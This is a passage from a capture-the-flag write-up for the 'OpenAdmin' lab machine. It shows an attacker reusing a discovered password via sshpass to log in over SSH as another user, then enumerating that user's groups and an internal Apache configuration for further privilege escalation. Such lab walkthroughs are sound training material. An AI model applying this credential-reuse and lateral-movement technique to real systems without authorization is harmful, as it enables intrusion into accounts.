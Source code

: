 One thing to do if you have passwords is always to try them on other users. To do that, first we gotta find out users with access to the box. One of the easiest ways is to see which users are listed in the `/home` directory.
```
www-data@openadmin:/opt/ona/www/local/config$ cd /home
cd /home
www-data@openadmin:/home$ ls -la
ls -la
total 16
drwxr-xr-x  4 root   root   4096 Nov 22  2019 .
drwxr-xr-x 24 root   root   4096 Nov 21  2019 ..
drwxr-x---  5 jimmy  jimmy  4096 Nov 22  2019 jimmy
drwxr-x---  6 joanna joanna 4096 Nov 28 09:37 joanna
```

We've got `jimmy` and `joanna`. Let's try `jimmy` first:
```
kali@kali:~$ sshpass -p 'n1nj4W4rri0R!' ssh jimmy@openadmin.htb
```
```
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)

(..snip..)

Last login: Thu May 28 07:38:30 2020 from 10.10.14.12
jimmy@openadmin:~$ 
```

That worked, and we got `jimmy`. (But not user.txt - that's in `joanna`'s home directory).

### Priv: jimmy -> joanna
At this point the standard thing to do is to run an enumeration script again, since results might be different if we have `jimmy`'s permissions. Speaking of which, let's take a look at `jimmy`'s permissions:
```
jimmy@openadmin:~$ id
uid=1000(jimmy) gid=1000(jimmy) groups=1000(jimmy),1002(internal)
```

`jimmy` belongs to the `internal` group, and if you'd looked around the apache2 configs, you would've noticed a file at `/etc/apache2/sites-available/internal.conf` that was out of your reach when you were `www-data`:
```
jimmy@openadmin:/etc/apache2/sites-available$ cat internal.conf
Listen 127.0.0.1:52846

<VirtualHost 127.0.0.1:52846>
    ServerName internal.openadmin.htb
    DocumentRoot /var/www/internal

<IfModule mpm_itk_module>
AssignUserID joanna joanna
</IfModule>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>
```

